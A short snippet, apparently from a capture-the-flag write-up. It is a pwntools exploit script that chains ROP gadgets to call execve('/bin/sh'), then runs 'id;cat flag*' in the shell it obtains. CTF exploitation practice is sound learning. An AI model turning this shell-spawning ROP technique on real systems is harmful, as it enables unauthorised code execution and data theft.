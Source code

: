 ```python
payload += flat({
  8: p64(0),
  16: p64(0x00000012008d2d0),
  24: p64(8),
  64: p64(63),
  72: p64(gadget0),
  136: p64(0),
})
# put syscall address in $s0 again
payload += flat({
  32: p64(syscall),
  40: p64(gadget1),
})
# humm, put $s0 in $a0
payload += flat({
  104: p64(gadget2),
})
# we call syscall execve('/bin/sh', 0, 0) 
payload += flat({
  8: p64(0x00000012008d2d0),
  16: p64(0),
  24: p64(0),
  64: p64(__NR_execve),
  72: p64(gadget0),
  136: p64(0),
})


p.sendlineafter('\n', payload)
# command to execute so
p.sendline('/bin/sh\x00')
# enjoy shell
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning things*
